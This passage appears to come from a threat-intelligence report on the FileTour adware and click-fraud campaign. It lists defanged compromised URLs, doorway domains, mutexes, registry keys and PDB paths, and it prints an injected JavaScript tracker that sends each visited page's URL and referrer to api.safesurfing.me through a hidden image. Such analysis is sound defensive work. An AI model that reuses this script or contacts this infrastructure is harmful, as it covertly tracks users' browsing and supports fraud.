Feb 16, 2017 | hxxp://yik.edu.my/sekolah/mspp/images/banners/b1/index.php
Feb 16, 2017 | hxxp://treningmentalny.home.pl/m_dddd/images/banners/b1/index.php
Mar 16, 2017 | hxxp://the-dreamweaver.net/portal/images/banners/b1/index.php
Mar 16, 2017 | hxxp://eki.szie.hu/erasmusip/images/banners/b1/index.php
Mar 16, 2017 | hxxp://erasmus.sp9.slupsk.pl/images/banners/b1/index.php
Apr 3, 2017 | hxxp://sceptretoursandtravel.com/images/banners/b1/index.php
Apr 25, 2017 | hxxp://alcaldiadematurin.gob.ve/portal3/images/banners/b1/index.php
Apr 25, 2017 | hxxp://thegamerszone-mgc.com/images/banners/b1/index.php
May 8, 2017 | hxxp://banueventsolutions.com/images/banners/b1/index.php
May 23, 2017 | hxxp://kryonschule-ahaus.de/images/banners/b1/index.php
May 23, 2017 | hxxp://aklcosmetics.com.au/images/banners/b1/index.php
May 24, 2017 | hxxp://lotto4phone.altervista.org/images/banners/b1/index.php
May 25, 2017 | hxxp://tim-johnson.com/images/banners/b1/index.php
May 25, 2017 | hxxp://scrapbook-stickers.com/images/banners/b1/index.php
May 26, 2017 | hxxp://doscerodesign.com/hele/images/banners/b1/index.php
----

==== FileTour click-fraud doorway websites

----
hxxp://good-journal.net
hxxp://nano-news.info
hxxp://newssocial.org
hxxp://news-true.net
----

==== FileTour click-fraud bitly redirections

----
hxxps://bitly.com/2mfUhWn2
hxxps://bitly.com/2lzYhUo
----

=== Windows Artifacts

==== Mutexes

----
Global\BitStreamSvc
Global\D3DAdapter_ServiceEvent
Global\Intel_hctrl32
Global\KBDMAIServiceEvent
Global\Kbdmai_ServiceEvent
Global\OptimizeSataDevices
Global\ServiceLibEvent
Global\ThemeControl
Global\WBiosrvp
Global\Wlan_Manager_Initialize
Global\Wsaudio_Initialize
----

==== Windows Registry keys

----
HKLM\SYSTEM\CurrentControlSet\Services\BitStreamSvc\
HKLM\SYSTEM\CurrentControlSet\services\Bonjoiur Host Controller\
HKLM\SYSTEM\CurrentControlSet\services\Coupons Browser Update Service\
HKLM\SYSTEM\CurrentControlSet\services\d3dadapter\
HKLM\SYSTEM\CurrentControlSet\Services\Ghostery Storage Server\
HKLM\SYSTEM\CurrentControlSet\services\ihctrl32\
HKLM\SYSTEM\CurrentControlSet\services\ir16_32\
HKLM\SYSTEM\CurrentControlSet\services\KBDMAI\
HKLM\SYSTEM\CurrentControlSet\Services\optsatadc\
HKLM\SYSTEM\CurrentControlSet\services\themctrl\
HKLM\SYSTEM\CurrentControlSet\Services\wbiosrvp\
HKLM\SYSTEM\CurrentControlSet\Services\wlanmgr\
HKLM\SYSTEM\CurrentControlSet\Services\wsaudio\
HKLM\SOFTWARE\Classes\[0-9A-F]{4}.FieldListCtrl.1\
HKLM\SOFTWARE\Classes\[0-9A-F]{4}.CoreClass.2\
----

==== PDB Paths

----
D:\work\brut\cms\facebook\facebookbot\Release\facebookbot.pdb
D:\work\service\plugins\Release\get_hdd_serial_number.pdb
D:\work\service\plugins\Release\remove_plugins_installer.pdb
D:\work\service\plugins\Release\remove_zaxar.pdb
D:\work\service\plugins\Release\reset_safesurfing_flag.pdb
D:\work\service\service\Release\bstreamsvc.pdb
D:\work\service\service\Release\bstreamsvc_setup.pdb
D:\work\service\service\Release DRTIPROV\ir16_32.pdb
D:\work\service\service\Release\first_service.pdb
D:\work\service\service\Release\first_service_setup.pdb
D:\work\service\service\Release\ihctrl32.pdb
D:\work\service\service\Release\ihctrl32_setup.pdb
D:\work\service\service\Release\ir16_32.pdb
D:\work\service\service\Release\optsatadc.pdb
D:\work\service\service\Release\optsatadc_setup.pdb
D:\work\service\service\Release\themctrl.pdb
D:\work\service\service\Release\themctrl_setup.pdb
D:\work\service\service\Release\wbiosrvp_setup.pdb
D:\work\service\service\Release\wsaudio_setup.pdb
D:\work\ultdr\udsetup\Release\udsetup_winapi_morphed.pdb
Z:\source\service\Release\ir16_32.pdb
Z:\source\service\Release\setup_serv.pdb
----

=== The Safe Surfing injected script

[source, javascript]
----
var _________subscribe_checker = {
    _detect_text: ["((\u0443\u0441\u043b\u043e\u0432|\u0443\u043f\u0440\u0430\u0432\u043b)(.*)\u043f\u043e\u0434\u043f\u0438\u0441\u043a)|(\u043f\u043e\u0434\u043f\u0438\u0441\u043a(.*)(\u0443\u0441\u043b\u043e\u0432|\u0443\u043f\u0440\u0430\u0432\u043b))", "\u043f\u0440\u0430\u0432\u0438\u043b(.*)\u043f\u043e\u0434\u043f\u0438\u0441\u043a", "\u0441\u0442\u043e\u0438\u043c\u043e\u0441(.*)\u0443\u0441\u043b\u0443\u0433"],
    _detected_text_count: 0,
    _hrefs: [],
    _description_regex: /(\u0441\u043c\u0441|sms)[- ]\u0441\u043e\u043e\u0431\u0449\u0435\u043d(.*)\u0441(.*)(\u0441\u043b\u043e\u0432|\u0442\u0435\u043a\u0441\u0442|\u043a\u043e\u043c\u0430\u043d\u0434)(.*)(\u0441\u0442\u043e\u043f|stop)/,
    check: function() {
        if (this.isExcluded()) return !1;
        this._hrefs = document.links;
        return 1 == this.checkSiteBySubscribeTextInUrls() ? (this.send("by_text_in_urls"), !0) : 1 == this.checkSiteBySubscribeDescriptionText() ? (this.send("by_subscribe_text"), !0) : !1
    },
    isExcluded: function() {
        return "http:" != document.location.protocol && "https:" != document.location.protocol || this.isExludedDomain(document.location.host) || this.isExludedDomain(document.referrer) ? !0 : this.isExcludedUrl()
    },
    checkSiteBySubscribeTextInUrls: function() {
        for (var a in this._hrefs)
            if (this._hrefs[a].href &&
                this.isSubscribeText(this._hrefs[a].textContent) && 0 == this._detect_text.length) return !0;
        return !1
    },
    checkSiteBySubscribeDescriptionText: function() {
        if (0 == this._detected_text_count) return !1;
        var a = document.body.textContent.split("."),
            b;
        for (b in a)
            if (a[b].toLocaleLowerCase) {
                var c = a[b].toLocaleLowerCase().replace(/(\n)/g, " ").replace(/(\r)/g, "");
                if (this._description_regex.test(c)) return !0
            }
        return !1
    },
    isExludedDomain: function(a) {
        var b = "mts rt megafonpro megafon mpoisk mail google yandex ya rambler youtube dfiles turbobit prom zakupka pravo letitbit ozon urokitio kismia webnice toy mdmbank tele2 roboforex share4web 7do dixy kiino 4allforum delo-press raskachaem satu spmag yugcontract narodnoe materinstvo dimonvideo kia-club deal icloud littlebyte maxpark 24video vdgb trud appsruel tiu blanker aucland office ontabfile microsoft shopotam shareflare autoportal stilagoby malina depositfiles hitfile crocs telecom effectfree forum.calorizator.ru traektoria cdek takko circ-a tinydeal otzyv mamba rusfolder irn labirint vip-file 10.150.0.104".split(" ");
        a = a.split(".");
        if (2 <= a.length)
            for (var c in b)
                if (a[a.length - 2] == b[c]) return !0;
        return !1
    },
    isExcludedUrl: function() {
        for (var a = ["a-elite/scrpop-promka/psr-"], b = 0; b < a.length; ++b)
            if (-1 != document.location.pathname.indexOf(a[b])) return !0;
        return !1
    },
    isSubscribeText: function(a) {
        a = a.toLowerCase().replace(/(\n)/g, " ").replace(/(\r)/g, "");
        for (var b in this._detect_text)
            if ("string" === typeof this._detect_text[b] && 0 != this._detect_text[b].length && (new RegExp(this._detect_text[b].toLowerCase())).test(a)) return this._detect_text.splice(b,
                1), ++this._detected_text_count, !0;
        return !1
    },
    send: function(a) {
        var b = document.createElement("img"),
            c = new Date;
        b.src = "http://api.safesurfing.me/detect/i.php?ss=" + encodeURIComponent(document.location.href) + "&rss=" + encodeURIComponent(document.referrer) + "&r=" + c.getTime() + "&v=2.07&by=" + a;
        b.style.display = "none";
        document.body.appendChild(b)
    }
};
_________subscribe_checker.check();
----
